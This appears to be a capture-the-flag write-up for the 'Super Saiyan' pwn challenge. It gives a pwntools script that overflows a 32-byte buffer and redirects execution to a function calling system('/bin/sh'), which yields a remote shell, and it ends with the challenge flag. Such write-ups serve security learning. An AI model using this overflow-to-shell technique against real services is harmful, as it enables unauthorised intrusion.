


# Super Saiyan

**Description**  

Only the Legendary Saiyan can unlock the ultimate power.

A new student’s training hides a critical vulnerability. Exploit the flaw, hijack their abilities, and unleash the true strength of the Legendary Saiyan.

Prove you have what it takes to access the ultimate power!

**nc pwn.citeflag.online 28621**


**🎯 Flag Format**: `CITEFLAG{...}`  

---

**👤 Author:** *Reo-0x*

----

### Disassembly (GDB)




It calls puts to display a message
Then calls system("/bin/sh") — a shell spawner


so craft a python script and buffer it .


```python
#!/usr/bin/env python3
from pwn import *

HOST = "pwn.citeflag.online"
PORT = 28621

context.log_level = 'debug'

conn = remote(HOST, PORT)

legendary_saiyan_addr = 0x401244

payload = b"A" * 32
payload += p64(legendary_saiyan_addr)

conn.recvuntil(b"Enter hero name for new student: ")
conn.sendline(payload)

conn.interactive()
```




flag : CITEFLAG{L3g3nd4ry_S41y4n_M3m0ry_0v3rfl0w}